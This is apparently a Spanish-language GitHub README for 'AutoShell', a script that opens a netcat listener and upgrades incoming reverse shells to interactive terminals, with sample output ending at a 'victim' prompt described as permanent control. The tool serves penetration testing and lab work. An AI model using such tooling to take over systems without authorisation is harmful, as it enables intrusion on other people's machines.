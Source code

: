 # AutoShell 🚀

Herramienta para automatizar la mejora de shells inversas a TTY completamente interactivas con detección inteligente de entornos.

## 📦 Instalación

```bash
git clone https://github.com//Mayky23/AutoShell.git
cd AutoShell
chmod +x AutoShell.sh
```

## 🛠 Uso básico

```bash
./AutoShell.sh 4444
```

## 🌟 Ejemplo de uso

```bash
$ ./AutoShell.sh 4444
[*] Iniciando listener en Todas las interfaces:4444
[*] Ejecutando: nc -lvnp 4444
[*] Esperando conexión...
connect to [192.168.10.100] from (UNKNOWN) [192.168.10.101] 53944
[+] Conexión establecida
[*] Mejorando shell...
[+] Shell mejorada con éxito!
[+] Shell estabilizada correctamente
[*] Transfiriendo control al usuario...
user@victim:/home/user$  # <-- Aquí tienes control directo y permanente
```

## 🛡 Características clave

✔️ Autodetección de Python/alternativas

✔️ Soporte para IPv4/IPv6

✔️ Validación de parámetros robusta

✔️ Limpieza automática de recursos

✔️ Configuración óptima de terminal
